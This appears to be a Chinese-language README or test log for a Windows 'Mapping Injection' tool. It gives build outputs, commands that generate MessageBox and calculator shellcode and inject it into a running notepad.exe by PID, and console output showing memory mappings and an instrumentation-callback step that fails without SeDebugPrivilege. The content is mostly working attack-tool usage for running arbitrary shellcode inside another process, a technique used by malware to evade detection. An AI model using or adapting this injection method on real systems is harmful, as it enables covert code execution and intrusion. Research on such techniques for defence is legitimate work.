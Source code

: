 **输出文件**：
- `build/mapping_injection.exe` - 注入器
- `build/generate_shellcode.exe` - Shellcode生成器
- `build/payload.bin` - 默认MessageBox shellcode

### 生成测试Shellcode

```bash
# MessageBox
./build/generate_shellcode.exe messagebox build/msgbox_payload.bin

# Calculator
./build/generate_shellcode.exe calc build/calc_payload.bin
```

## 测试步骤

### 测试1：非管理员权限测试

```bash
# 启动目标进程
notepad.exe &
PID=$(tasklist | grep -i "notepad.exe" | head -1 | awk '{print $2}')

# 执行注入（非管理员）
./build/mapping_injection.exe $PID build/msgbox_payload.bin
```

**结果**：
```
========================================
  Mapping Injection
  基于内存映射的进程注入
========================================

[+] 已读取 shellcode: 325 字节
[*] 目标进程 PID: 15628
[+] 已打开目标进程

[*] 步骤 1: 分配全局变量...
  [+] 已创建文件映射对象
  [+] 已写入 1 字节到映射对象
  [+] 已映射到远程进程: 0x00000183F6F80000 (保护: 0x4)
[*] 步骤 2: 构建 callback...
[+] 最终 callback 大小: 795 字节 (callback: 470 + shellcode: 325)
[*] 步骤 3: 映射 callback 到目标进程...
  [+] 已创建文件映射对象
  [+] 已写入 795 字节到映射对象
  [+] 已映射到远程进程: 0x00000183F6F90000 (保护: 0x20)
[+] Callback 地址: 0x00000183F6F90000
[*] 步骤 4: 设置 instrumentation callback...
[!] NtSetInformationProcess 失败: 0xC0000061
[!] 你是否拥有 SeDebugPrivilege？
```
